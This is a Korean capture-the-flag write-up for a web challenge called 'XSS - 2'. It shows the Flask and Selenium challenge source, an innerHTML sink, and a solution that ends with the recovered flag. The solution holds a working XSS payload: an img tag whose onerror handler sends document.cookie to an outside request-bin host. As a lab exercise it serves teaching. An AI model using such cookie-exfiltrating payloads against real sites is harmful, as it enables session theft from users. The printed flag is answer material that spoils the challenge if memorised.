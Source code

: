 ## XSS - 2
<hr style="border-top: 1px solid;"><br>

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome("/chromedriver", options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)

```


<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

flag 페이지에서 보내는 요청을 플래그 쿠키를 가지고 있는 사용자가 읽게 된다.

xss-1 문제와 다르게 이번엔 vuln 페이지가 render_template로 리턴이 되어서 스크립트가 동작하지 않는다.

하지만 vuln 페이지 소스코드를 보면 이런 코드가 있다.

<br>

```html
<div id='vuln'></div>
<script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>
```

<br>

innerHTML
: <a href="https://developer.mozilla.org/ko/docs/Web/API/Element/innerHTML" target="_blank">developer.mozilla.org/ko/docs/Web/API/Element/innerHTML</a>

<br>

정리하면 vuln 요소 즉, ```<div id='vuln'>{here}</div>```에서 here 부분의 내용을 수정할 수 있게 해주는 javascript 코드다.

테스트로 ```<h1>TEST</h1>```을 입력해보면 아래와 같이 출력된다.

<br>

![image](https://user-images.githubusercontent.com/52172169/156905431-19765d01-a33b-4e17-8c83-8ae39adde9da.png)

<br>

이 부분을 이용해서 풀 수 있다.

html 태그 안에 이벤트를 넣을 수가 있는데 이벤트 중 onload, onerror 등이 있다. 그 중 onerror를 이용하였다.

<br>

onerror
: <a href="https://www.w3schools.com/jsref/event_onerror.asp" target="_blank">w3schools.com/jsref/event_onerror.asp</a>

<br>

위 사이트를 들어가보면 예시에도 적혀있지만 img 태그를 이용하였다. supported html tag에 사용 가능한 태그가 있다.

따라서 이미지를 로드할 때 에러가 발생하면 자바스크립트를 실행하므로 이를 이용해서 에러를 일으켜 request bin의 서버로 보내면 쿠키 값을 확인할 수 있다. 

<br>

드림핵 툴을 이용해서 풀 수 있다.

Exploit
: ```<img src="" onerror=location.href="https://zbpnwsn.request.dreamhack.games?cookie="+document.cookie>```

<br>

![image](https://user-images.githubusercontent.com/52172169/156905140-c7b715af-188e-4c4c-9b6f-70a9d4134dda.png)

<br>

+ Flag : ```DH{3c01577e9542ec24d68ba0ffb846508f}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
